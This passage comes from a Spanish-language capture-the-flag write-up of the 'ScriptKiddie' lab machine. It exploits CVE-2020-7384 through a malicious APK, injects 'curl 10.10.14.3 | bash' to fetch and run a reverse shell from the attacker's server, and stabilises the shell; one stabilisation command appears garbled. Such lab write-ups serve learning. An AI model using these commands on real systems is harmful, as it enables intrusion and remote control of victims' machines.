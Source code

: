 ```python 
print(f"Do: msfvenom -x {apk_file} -p android/meterpreter/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -o /dev/null")
```
Simplemente tenemos que especificar el comando que queremos inyectar en el campo *payload* y el programa nos creara el archivo *evil.apk* correspondiente. En mi caso, el *payload* que especificaré será ````'curl 10.10.14.3 | bash'````

### Explotando CVE-2020-7384  

````'curl 10.10.14.3 | bash'```` hará que la máquina victima me envíe una petición HTTP a mi servidor. Yo estaré corriendo un servidor HTTP de python compartiendo un fichero *index.html* malicioso que contendrá un sentencia en bash, que será una *reverse shell*. El ```| bash``` es para que este código sea interpretado del lado de la máquina y me envíe la consola interactiva. También deberé de estar en escucha por el puerto 443 para recibirla.

El *index.html* del que hablo contendrá el siguiente código:
 
<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/index.jpg" alt="drawing"  />  

Ahora con *python* nos desplegamos un servidor http compartiendo el *index.html* y con *nc* nos ponemos en escucha por el puerto 443 para recibir la consola interactiva.

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/revshell.jpg" alt="drawing"  />  

Procederemos a subir nuestro archivo *evil.apk* malicioso a la página web. Como *lhost* pondremos nuestra ip. En la imagen de arriba se puede ver como recibo la conexión de la máquina victima después de subir el archivo.

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/exploit.jpg" alt="drawing"  />

Una vez recibida la shell, deberemos hacerle un tratamiento para que nos permita poder hacer *Ctrl+C*, borrado de los comandos, movernos con las flechas... Los  comandos que ingresaremos serán:
```zsh
import /dev/null -c bash
*Ctrl+Z*
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```

De la siguiente forma: 

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/tratamiento.jpg" alt="drawing"  />  

En este punto ya podremos visualizar la ***user.txt*** en el directorio de ***kid***.

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/userflag.jpg" alt="drawing"  />  

Ahora deberemos escalar privilegios para convertirnos en el usuario ***root***.

##  Consiguiendo shell como pwn  

### Reconocimiento del sistema  

####  *Homedir* de kid  

Empezaremos investigando los archivos que hay en el *homedir* de kid. Dentro del directorio *html* nos encontramos con los siguientes archivos:

<img src="/photos/2022-09-16-ScriptKiddie-WriteUp/dirhtml.jpg" alt="drawing"  /> 

Estos son los ficheros que configuran el servidor web que podíamos ver corriendo en el puerto 5000.  

````